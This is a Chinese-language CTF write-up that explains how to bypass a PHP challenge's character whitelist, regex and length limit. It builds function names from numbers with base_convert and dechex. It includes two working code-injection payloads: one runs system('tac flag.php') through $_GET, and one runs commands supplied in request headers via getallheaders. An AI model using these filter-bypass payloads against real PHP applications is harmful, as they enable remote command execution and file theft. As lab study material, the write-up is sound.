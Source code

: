 # 知识点
[hex2bin](https://www.php.net/manual/zh/function.hex2bin)<br />[getallheaders](https://www.php.net/manual/zh/function.getallheaders)
### 动态函数调用
[https://www.php.cn/php-ask-457363.html](https://www.php.cn/php-ask-457363.html)
# 思路
### 方法一
37907361743十进制转换为二进制刚好为hex2bin<br />dechex(1598506324) 等于 _GET的十六进制表示，先为二进制表示，防止出现字母<br />当$pi = _GET<br />$$pi 相当于 $_GET<br />数组索引除能使用 [ ] 外还可以用 { }
```bash
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{acos}($$pi{asin});&acos=system&asin=tac flag.php
```
![image.png](./images/20231017_2350342180.png)
### 方法二
来自[南神博客](https://www.wlhhlc.top/posts/14827/)<br />分析一波源码，get传参c，并且长度不能超过80，设置了黑名单和白名单和正则过滤。按照提示我们去找找一些数学函数进行使用，这么多白名单也注定了有多种payload，这里我使用base_convert()和getallheaders配合使用<br />![RJK)FW%W]I}7HR]PECDK0HP.png](./images/20231017_2350354408.png)<br />![EPWLSILUL`48@$PDH%9AEAN.png](./images/20231017_2350351648.png)<br />注意，因为正则会匹配字母，所以我们需要通过base_convert()进行一个转换
```bash
echo base_convert('system',36,10);
//得到1751504350，从36进制转换到10进制，36进制包含10个数字和26个字母

echo base_convert('getallheaders',30,10);
//得到8768397090111664438，这里不使用36进制是因为精度会丢失，尝试到30的时候成功
```
所以构造payload如下
```bash
?c=$pi=base_convert,$pi(1751504350,10,36)($pi(8768397090111664438,10,30)(){1}) 
```
这里用一个变量来缩小payload长度，但注意变量名要取白名单中的名字进行命名，否则会被ban<br />![T)W51CB)N5TQ4[66Y8EECDJ.png](./images/20231017_2350366610.png)<br />成功获得flag
